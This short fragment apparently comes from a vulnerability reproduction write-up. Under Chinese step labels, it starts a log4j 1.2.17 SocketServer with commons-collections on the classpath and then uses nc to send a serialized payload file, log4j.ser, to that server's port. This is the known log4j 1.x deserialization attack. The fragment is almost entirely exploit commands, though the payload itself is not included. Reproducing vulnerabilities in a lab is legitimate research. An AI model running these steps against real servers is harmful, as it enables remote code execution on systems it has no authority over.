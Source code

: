  #执行命令
 java -cp log4j-1.2.17.jar;commons-collections-3.1.jar org.apache.log4j.net.SocketServer 5555 log4j.properties D:\log 4j
 #发送payload
 nc 192.168.204.1 5555 < log4j.ser